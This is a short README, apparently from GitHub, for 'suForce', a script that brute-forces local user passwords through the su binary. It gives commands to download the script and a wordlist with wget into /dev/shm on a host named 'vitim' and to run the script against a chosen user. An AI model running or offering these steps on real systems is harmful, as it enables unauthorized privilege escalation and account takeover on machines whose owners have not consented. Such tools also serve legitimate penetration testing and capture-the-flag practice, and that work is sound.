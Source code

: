 # suForce

**`suForce` performs `brute` `force` `attacks` on `user` `passwords` by abusing the `su` binary**

![](/screenshot.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
